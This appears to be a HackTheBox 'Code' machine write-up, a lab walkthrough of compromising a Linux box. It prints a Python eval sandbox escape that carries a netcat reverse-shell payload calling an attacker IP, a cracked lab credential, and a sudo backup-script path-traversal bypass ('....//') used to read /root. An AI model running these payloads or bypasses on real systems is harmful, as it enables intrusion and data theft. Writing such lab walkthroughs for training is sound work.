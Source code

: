 ```yaml
---
title: Code
tags:
  - HackTheBox
  - Easy
  - Linux
  - Python-Scripting
  - Python-Eval-Protections
  - Code_Review
date: 2025-03-22T00:00:00Z
---
```

![](Pasted%20image%2020250322195910.png)

## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.11.62 code.htb" | sudo tee -a /etc/hosts
```

Then, I performed a Nmap scan:

```shell
nmap -sC -T4 -p- code.htb > sC.txt

[redacted]
PORT   STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey: 
|   3072 b5:b9:7c:c4:50:32:95:bc:c2:65:17:df:51:a2:7a:bd (RSA)
|   256 94:b5:25:54:9b:68:af:be:40:e1:1d:a8:6b:85:0d:01 (ECDSA)
|_  256 12:8c:dc:97:ad:86:00:b4:88:e2:29:cf:69:b5:65:96 (ED25519)
5000/tcp open  upnp
```

![](Pasted%20image%2020250322200235.png)

I created a new user:

![](Pasted%20image%2020250322200405.png)

## Weaponization

I'll try to get RCE by Breaking Python 3 eval protections. I found this awesome blog [netsec.expert](https://netsec.expert/posts/breaking-python3-eval-protections/).

Python has a lot of classes that exist for `object`, so we can know them by printing `[].__class__.__base__.__subclasses__()`:

![](Pasted%20image%2020250322224511.png)

Specifically, the class number 317 is [subprocess.Popen](https://docs.python.org/3/library/subprocess.html) which allows you to spawn new processes, connect to their input/output/error pipes, and obtain their return codes.

```shell
subprocess.run(_args_, _*_, _stdin=None_, _input=None_, _stdout=None_, _stderr=None_, _capture_output=False_, _shell=False_, _cwd=None_, _timeout=None_, _check=False_, _encoding=None_, _errors=None_, _text=None_, _env=None_, _universal_newlines=None_, _**other_popen_kwargs_)
```

We can use tha argument `_shell=True_` to spawn a reverse shell.
## Exploitation

I'll use the following payload to get a reverse shell:

```python
().__class__.__bases__[0].__subclasses__()[317](['rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.23 666 >/tmp/f'], shell=True)
```

![](Pasted%20image%2020250322224910.png)

### User flag

![](Pasted%20image%2020250322232453.png)

## Pivoting

I found a `database.db` inside `/home/app-production/app/instance`, which had a md5 credential of a user called `martin`:

![](Pasted%20image%2020250322225408.png)

Also got another user called `development` password's hash.

Then I checked both hashes in crackstation:

![](Pasted%20image%2020250322225533.png)

> Credentials: `martin:nafeelswordsmaster`

## Privilege Escalation

I checked the sudo vulnerability:

```shell
sudo -l

[redacted]
(ALL : ALL) NOPASSWD: /usr/bin/backy.sh
```

I got the code of the script:

```sh
#!/bin/bash

if [[ $# -ne 1 ]]; then
    /usr/bin/echo "Usage: $0 <task.json>"
    exit 1
fi

json_file="$1"

if [[ ! -f "$json_file" ]]; then
    /usr/bin/echo "Error: File '$json_file' not found."
    exit 1
fi

allowed_paths=("/var/" "/home/")

updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")

/usr/bin/echo "$updated_json" > "$json_file"

directories_to_archive=$(/usr/bin/echo "$updated_json" | /usr/bin/jq -r '.directories_to_archive[]')

is_allowed_path() {
    local path="$1"
    for allowed_path in "${allowed_paths[@]}"; do
        if [[ "$path" == $allowed_path* ]]; then
            return 0
        fi
    done
    return 1
}

for dir in $directories_to_archive; do
    if ! is_allowed_path "$dir"; then
        /usr/bin/echo "Error: $dir is not allowed. Only directories under /var/ and /home/ are allowed."
        exit 1
    fi
done

/usr/bin/backy "$json_file"
```

Basically the script takes the content of the `task.json` and then creates a backup of the content you specify, so I put this inside `task.json`:

```sh
{
  "destination": "/home/martin/backups/",
  "multiprocessing": true,
  "verbose_log": false,
  "directories_to_archive": [
    "/home/....//....//root"
  ]
}
```

- *NOTE: put `....//` because the script also removes `./`*

Then I executed the script:

```shell
sudo /usr/bin/backy.sh ~/backups/task.json
```

![](Pasted%20image%2020250322231704.png)

### Root flag

![](Pasted%20image%2020250322231813.png)

==Machine pwned!==